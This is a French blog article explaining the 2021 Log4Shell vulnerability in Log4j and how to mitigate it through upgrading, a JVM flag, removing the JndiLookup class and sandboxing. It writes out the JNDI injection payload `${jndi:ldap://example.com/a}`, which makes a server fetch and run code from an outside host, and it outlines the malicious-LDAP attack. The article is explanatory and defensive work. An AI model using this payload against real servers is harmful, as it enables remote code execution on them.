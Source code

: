 Author: Eban
Date: 2021/12/11
Title: Log4j, une vulnérabilité d'une ampleur inédite
Summary: Le 9 décembre 2021, la publication d'une vulnérabilité 0 day baptisée Log4Shell (CVE-2021-44228) a ébranlé le petit monde de la sécurité informatique, nous tacherons de comprendre son fonctionnement et comment s'en prémunir dans cet article.
Slug: log4j
Keywords: sécurité

Le 9 décembre 2021, la publication d'une vulnérabilité 0 day baptisée Log4Shell (CVE-2021-44228) a ébranlé le monde de la sécurité informatique, nous tacherons de comprendre son fonctionnement et comment s'en prémunir dans cet article.

Log4j2 est une librairie Java permettant de générer... des logs, c'est comme le Port-Salut, c'est écrit dessus 😉. Cette librairie est très utilisée par de nombreuses entreprises, comme, pour ne citer qu'elles, Apple, Steam, Twitter, Amazon, Tesla ou encore Microsoft. Le problème est qu'une vulnérabilité a été découverte sur ce logiciel. Cette vulnérabilité était passée jusqu'alors inaperçue, le 9 décembre un utilisateur de Github, `wcc526`, interroge l'auteur d'une pull request corrigeant cette faille à propos de celle ci. S'ensuit la publication d'une CVE et d'un Proof Of Context.

![Message de wcc526 "Is it a security vulnerability"](/static/img/log4j/github.png)

## 💥 Exploitation 

L'exploitation de cette vulnérabilité est triviale, une simple suite de caractères comme `${jndi:ldap://example.com/a}` d'obtenir une RCE (Remote Code Execution) sur le serveur distant.

JNDI est l'acronyme de "Java Naming and Directory Interface", c'est une fonction de Java qui permet d'interroger des directories afin d'obtenir en retour un objet java. Un directory, c'est une sorte de base de donnée principalement utilisée en entreprise qui stocke des informations comme par exemple les utilisateurs, leurs droits, etc. On peut citer ActiveDirectory ou encore LDAP comme exemple de directory bien connu. Java, à travers JNDI, supporte le directory open source bien connu LDAP. La syntaxe `jndi:ldap://example.com/a` interroge le serveur LDAP sur le serveur example.com et va télécharger l'objet a.

La syntaxe `${}`indique à Log4j qu'il faut évaluer ce qui est indiqué entre accolades. Par exemple, `${java:version}` renverra la version de java. Ici, `${jndi:ldap://example.com/a}` indique à Log4j d'évaluer (exécuter) l'objet présent à l'URI `ldap://example.com/a`.

Au vu de ces éléments, il est trivial d'obtenir une RCE sur le serveur distant. Il suffit de monter un serveur LDAP malicieux contenant un objet Java vérolé et de faire en sorte que `${jndi:ldap://SERVEUR/OBJET}` soit loggé.

Cette vulnérabilité est très inquiétante au vu de la facilité avec laquelle elle peut être exploitée. À la découverte de cette dernière, de nombreux bots ont scanné l'ensemble d'Internet à la recherche de serveur vulnérables. Le serveur qui héberge le site web que vous visitez en ce moment a été visité par certains d'entre eux.

![De nombreux bots essayent d'envoyer des payload malveillants](/static/img/log4j/vm01.png)

## 🧑‍🚒 Limiter les dégâts

Il existe plusieurs méthodes afin de mitiger cette faille de sécurité.

La première, la plus évidente, mettre à jour log4j vers la version 2.15.0 qui n'est pas vulnérable.

La seconde, mettre la variable `log4j2.formatMsgNoLookups` à `True`, ceci peut être fait en ajoutant l'argument `‐Dlog4j2.formatMsgNoLookups=True` à la commande permettant de lancer l'application Java.

La troisième, plus radicale, consiste à enlever purement et simplement la classe `JndiLookup` qui est la cause de cette vulnérabilité. Ceci peut être fait avec la commande `zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class` notamment.

Une autre solution plus amusante a été mise en place par Maayan-Sela et cr-mitmit, elle s'appelle `Logout4Shell`, c'est un logiciel en Java qui permet de patcher n'importe quel serveur vulnérable. Le code est disponible [ici](https://github.com/Cybereason/Logout4Shell).

Une autre solution, préventive cette fois, qui aurait pu limiter grandement les dégâts, est de bien cloisonner ses différents services. Ceci peut être fait au moyen de [services systemd renforcés](https://ilearned.eu/systemd-sandboxing.html), ou de technologies de conteneurisation comme Docker.
